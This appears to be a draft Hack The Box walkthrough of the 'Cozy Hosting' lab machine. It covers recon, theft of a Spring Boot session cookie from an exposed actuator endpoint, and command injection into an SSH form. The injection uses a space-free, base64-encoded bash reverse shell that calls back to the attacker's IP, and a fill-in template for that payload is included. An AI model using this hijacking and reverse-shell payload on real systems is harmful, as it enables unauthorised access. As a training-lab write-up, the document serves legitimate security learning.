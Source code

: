 +++
tags = ["HTB", "RCE", "Linux", "BootStrap", "SpringBoot", "HTTP", "SSH", "SessionHijacking"]
title = "Cozy Hosting Walkthrough"
weight = 10
draft: true
+++

![Cozy Hosting](CozyHosting.png)

&nbsp;
&nbsp;

## Recon
#### NMAP

Typically the first thing I always do on a box is run an ```nmap``` scan with ```-sC``` to run the default set of NSE scripts and ```-sV``` to run service version detection.

![NMAPresults](nmaprecon.png)

Port 22-SSH and port 80-HTTP are open. I'll then update my hosts file to include CozyHosting's IP and URL, because the scan says it could not follow the redirect to the box's URL.

![Hostsfilescreenshot](hostsfile.png)

#### Subdomain Fuzz and the Website

Knowing this host contains a website the first thing I wanted to do was find out what URLs it had. I originally spidered the website with ZAP, but didn't come up with many URL's because ZAP needs to be authenticated to spider the site any farther. 

I moved onto seeing if I could find a targeted SecList to use instead of trying semi-random lists until I stumbled upon the right one.

Opening the web page you notice a few things, but mostly I noticed that there was a link to ```/index``` on the site icon. 

![Mainsite](websitemain.png) 

```/index``` displays a "Whitelable Error Page". 

![IndexError](indexerror.png)

If you search this "Whitelable Error Page" you find that the website is running on Spring Boot. Spring Boot is an open source Java-based framework used to build stand-alone and production ready spring applications according to [Tutorials Point](https://www.tutorialspoint.com/spring_boot/spring_boot_introduction.htm).

Looking through SecLists I see that I have a list for Spring Boot applications. 

Using Dirb and the [SecList](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) for Spring Boot I discovered a lot more pages than before. 

```dirb http://cozyhosting.htb/ /usr/share/SecLists/Discovery/Web-Content/spring-boot.txt```

![Dirb](dirb.png)

Navigating to the first interesting URL, ```/actuator/sessions```, leads me to find user **kanderson** and an alpha numeric string.

![sessions](sessions.png)

Throwing the string into [CyberChef](https://gchq.github.io/CyberChef/) yeilded nothing. But then after enumerating a few unsuccessful users I saw the site was storing session cookies. 

![SessionCookie](sessioncookie.png)

After pasting the session cookie from ```/actuator/sessions``` onto my existing unautherises session cookie I was able to refresh the page and log in as **K. Anderson**. 

![AdminPannel](adminpan.png)

After trying a few unsuccessful attempts at adding a host to automatic patching and different ways of getting a shell there. I opened Burp to see what the form was actually doing. 

When running the connection settings form I saw that it was actually trying to execute an SSH command.

![ExecuteSSH](exesshinit.png)

After I realized it was running a command, I tried a few command injections and came back with the usage syntax for SSH verifying it was running commands in ```/bin/bash```. 

![SSHSyntax](exesshPing.png)

## Initial Foothold

My next step was to try to get a reverse shell to work. I tried a few shells and formats, but found they could not contain whitespace. I researched how to get a shell with out spaces and came across HackTricks page on [Bypassing Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) and thier page on Linux Shells which included [Symbol Safe Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#symbol-safe-shell). 

After reading these I was able to craft the below shell. 

```;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYxCg=="|base64${IFS}-d|bash;``` with the encoded payload of ```bash -i >& /dev/tcp/10.10.14.162/1234 0>&1```.

**Payload**: ```bash -i >& /dev/tcp/YOUR LOCAL IP/1234 0>&1```

**Shell**: ```;echo${IFS}"BASE 64 ENCODED PAYLOAD"|base64${IFS}-d|bash;```

I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYx) to encode my payload, but it is also super helpful for decoding as well. 

![CyberChef](cyberchef.png)

Next I set up a [NetCat listener](https://blog.natem135.com/posts/using-a-netcat-listener/) on the same port as my encoded payload - port 1234. 

![NetCatListener](listener.png)

Once the listener was up and running I went back to the Connection Settings panel of CozyHosting.

So the host name should be your local IP or localhost and your username should be the entire shell from above. 
Above I also have my local IP, but found my shell worked with [localhost](https://unix.stackexchange.com/questions/184447/whats-the-difference-between-a-machines-ip-address-and-localhost) - 127.0.0.1. 

You can also do the same in Burp's Repeater, but I was having trouble getting the shell to run there.

![Base64Shell](base64shell.png)

Click "Submit" and you should have a shell!

![shell](shell.png)

The next step is not necessary for the machines, but useful to know for. The shell I gained was a shell with no job control and is not a fully interactive shell. To upgrade the shell you can run the following commands: 

```python3 -c 'import pty;pty.spawn("/bin/bash")'``` and then set the type of terminal to xterm, because it is currently set to "dumb". ```export TERM=xterm```

S1ren from OffSec shared their common commands to break out of a terminal [here](https://sirensecurity.io/blog/break-out-get-that-tty/).

